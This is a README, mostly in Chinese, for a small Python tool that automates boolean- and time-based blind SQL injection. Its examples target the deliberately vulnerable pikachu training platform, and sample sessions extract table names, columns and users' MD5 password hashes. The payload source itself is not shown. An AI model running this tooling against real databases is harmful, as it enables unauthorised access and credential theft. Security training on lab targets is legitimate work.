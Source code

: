 # sql_blind
A simple tool/framework for boolean-based or time-based sql injection(blind) 

**sql_blind是一款用于基于布尔的SQL盲注和基于时间的SQL盲注的简单工具/框架**

# 简介

sql_blind是为了方便SQL盲注而开发的小工具/框架，目前支持基于布尔的SQL盲注和基于时间的SQL盲注。
其主要目的是辅助手工注入，缩短手工注入的时间。
使用者需要根据实际情况修改payload和部分参数。
小工具（的示例）基于pikachu漏洞平台SQL-Inject的盲注关卡开发，如有必要可以用这两个关卡进行测试。

# 环境要求

本工具基于python3，使用前请先确保安装了python3

# 使用方法

1 下载源代码，根据实际情况修改sqli_bb.py和sqli_tb.py的payload和部分参数
2 命令行进入源代码所在文件夹（比如sqli_blind）上级文件夹
输入
python
\>\>\> from sqli_blind import *
然后调用各函数即可

# 示例

## 布尔盲注

以pikachu漏洞平台SQL-Inject的布尔盲注关卡为例：

\>\>\> from sqli_blind import *  
\>\>\> CurrentDatabaseBool()  
the name of current database contains 7 characters  
the name of current database is PIKACHU  
\>\>\> TablesBool()  
the name of all tables in current database contains 38 characters  
the name of all tables in current database is HTTPINFO,MEMBER,MESSAGE,USERS,XSSBLIND  
\>\>\> ColumnsBool()  
the name of all columns in current table contains 164 characters  
the name of all columns in current table is   USER_ID,FIRST_NAME,LAST_NAME,USER,PASSWORD,AVATAR,LAST_LOGIN,FAILED_LOGIN,USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS,ID,USERNAME,PASSWORD,LEVEL,ID,USERNAME,PASSWORD  
\>\>\> ContentBool()  
the content contains 117 characters  
the content is ADMIN^E10ADC3949BA59ABBE56E057F20F883E,PIKACHU^670B14728AD9902AECBA32E22FA4F6BD,TEST^E99A18C428CB38D5F260853678922E03  

## 时间盲注

以pikachu漏洞平台SQL-Inject的时间盲注关卡为例：

\>\>\> from sqli_blind import *  
\>\>\> CurrentDatabaseTime()  
the name of current database contains 7 characters  
the name of current database is PIKACHU  
\>\>\> TablesTime()  
the name of all tables in current database contains 38 characters  
the name of all tables in current database is HTTPINFO,MEMBER,MESSAGE,USERS,XSSBLIND  
\>\>\> ColumnsTime()  
the name of all columns in current table contains 164 characters  
the name of all columns in current table is     USER_ID,FIRST_NAME,LAST_NAME,USER,PASSWORD,AVATAR,LAST_LOG!N,FAILED_LOGIN,USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS,ID,USERNAME,PASSWORD,LEVEL,ID,USERNAME,PASSWORD  
\>\>\> ContentTime()  
the content contains 117 characters  
the content is ADMIN^E10ADC3949BA59ABBE56E057F20F883E,PIKACHU^670B14728AD9902AECBA32E22FA4F6BD,TEST^E99A18C428CB38D5F260853678922E03  
